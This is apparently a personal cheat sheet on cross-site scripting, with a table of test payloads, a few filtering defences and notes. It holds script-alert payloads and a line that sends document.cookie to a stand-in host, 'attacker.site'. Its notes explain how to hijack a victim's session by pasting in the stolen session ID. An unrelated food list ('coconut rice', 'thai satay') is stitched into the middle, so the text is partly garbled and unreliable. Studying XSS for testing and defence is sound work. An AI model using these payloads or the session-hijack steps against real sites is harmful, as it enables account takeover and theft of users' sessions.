 |                                                                                                                  |                                                                                                                                    |
|:---------------------------------------------------------------------------------------------------------------- |:---------------------------------------------------------------------------------------------------------------------------------- |
| @ **Reflected & Persistent Testing for XSS**                                                                     | ---                                                                                                                                |
| `<i> this is a test`                                                                                             | Testing if the webserver outputs the *italics*, seeing if a XSS is available                                                       |
| `<h1>some text here </h1>`                                                                                       | Checking if user input is sanitised                                                                                                |
| `<iframe src="javascript:alert(`xss`)"> `                                                                        | using iframe element, also known as XFS for framework                                                                              |
| `<script>alert('This is an XSS')</script>`                                                                       | Testing for alerts if reflected back                                                                                               |
| `<script>alert(document.cookie)</script>`                                                                        | Display your cookie                                                                                                                |
|                                                                                                                  |                                                                                                                                    |
| @ **Example threats**                                                                                            | ---                                                                                                                                |
| `victim.site/search.php?find=<malicious_code>`                                                                   | Example GET parameter embedded into a simple link to fool user                                                                     |
| `i.src="http://attacker.site/get.php?cookie="+escape(document.cookie);`                                          | Embed into a picture malicious URL that steals cookie and sends to to attackers website to log                                     |
|                                                                                                                  |                                                                                                                                    |


Most of the time, with the XSS attacks, the users or visitors to the site are the victims and it's common for the *site administrator* to be a user as well.

These vulnerabilities happen when web applications use **unfiltered user input** to *build the output content it displays* to its users; with unfiltered user input, it can allow an attacker to control the output HTML and javascript code.

General rule of thumb would be to **never trust user input**; so ensuring that the following input channels are validated **server side** that should sanitize or filter the users input:

**DEFENSE: FILTERING INPUTS**

> - Escape all user input
> - Validate Input
> - Sanitising
> - Request Headers
> - Cookies
> - Form Inputs
> - POST parameters
> - GET parameters

coconut rice
kitchen fried rice
thai satay
4 x roti

To find XSS, you have to look at **every user input** and test if it is somehow displayed in the output of the web application i.e browser url

**NOTES:**

> - JavaScript can access cookies if they don't have *HttpOnly* flag enabled
> - Once we have stolen the cookie or sessionID, we can then use the sessionID from the victim and paste it into the source code of the browser; **overwriting our own sessionID**.
> - Thereby impersonating the victim
